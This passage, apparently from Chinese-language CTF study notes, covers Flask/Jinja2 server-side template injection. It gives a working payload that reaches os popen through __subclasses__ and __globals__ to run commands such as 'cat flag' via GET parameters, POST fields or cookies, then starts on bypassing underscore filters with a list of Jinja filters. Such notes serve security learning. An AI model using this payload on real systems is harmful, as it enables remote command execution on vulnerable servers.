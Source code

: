 ```py
POC:
1.
{{().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.args.x1](request.args.cmd).read()}}
并使用GET方法提交?x1=popen&cmd=cat flag
2.
改成request.form.key来使用POST提交也可以
3.
使用request.cookies.k1，然后在hackbar的MODIFY HEADER添加cookies:
    Cookies         k1=popen;k2=cat flag
```

![image-20240408150401075](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240408150401075.png)

## 过滤器绕过下划线过滤

**过滤器**

```py
过滤器通过管道符号（|）与变量连接，并且在括号中可能有选的参数。
flask常用过滤器:
length() # 获取一个序列或者字典的长度并将其返回 
int() # 将值转换为int类型
float() # 将值转换为float类型
lower() # 将字符串转换为小写
upper() # 将字符串转换为大写
reverse() # 反转字符串
replace(value,old,new) # 将value中的old替换为new
list() # 将变量转换为列表类型
string() # 将变量转换为字符串类型
join() # 将一个序列中的参数值拼接成字符串，通常有Python内置的dict()配合使用
attr() # 获取对象的属性
```
